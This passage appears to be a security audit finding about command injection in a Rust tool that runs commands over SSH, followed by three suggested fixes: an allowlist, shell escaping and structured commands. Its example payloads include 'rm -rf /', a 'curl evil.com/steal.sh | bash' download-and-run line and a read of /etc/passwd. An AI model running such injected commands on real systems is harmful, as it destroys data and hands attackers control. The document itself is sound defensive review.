 **Attack Vector:**
```rust
// Attacker can inject shell commands:
command = "echo test; rm -rf /"
command = "echo test && curl evil.com/steal.sh | bash"
command = "echo test; cat /etc/passwd > /tmp/pwned"
```

**Why This Is Critical:**
- SSH executes commands in a shell on the remote host
- No input validation or sanitization
- Attacker can run arbitrary commands as the SSH user
- Could lead to complete system compromise

**Required Fix:**
```rust
// Option 1: Whitelist allowed commands
const ALLOWED_COMMANDS: &[&str] = &[
    "echo 'connection test'",
    "cargo build --release",
    "systemctl status rbee-hive",
];

if !ALLOWED_COMMANDS.contains(&command) {
    anyhow::bail!("Command not allowed: {}", command);
}

// Option 2: Use shellwords crate for proper escaping
use shellwords::escape;
let safe_command = escape(command);
cmd.arg(safe_command);

// Option 3: Use structured commands (best)
pub enum RemoteCommand {
    Test,
    Build { features: Vec<String> },
    Status,
}

impl RemoteCommand {
    fn to_args(&self) -> Vec<String> {
        match self {
            Self::Test => vec!["echo".to_string(), "connection test".to_string()],
            Self::Build { features } => {
                let mut args = vec!["cargo".to_string(), "build".to_string()];
                if !features.is_empty() {
                    args.push("--features".to_string());
                    args.push(features.join(","));
                }
                args
            }
            Self::Status => vec!["systemctl".to_string(), "status".to_string(), "rbee-hive".to_string()],
        }
    }
}
```
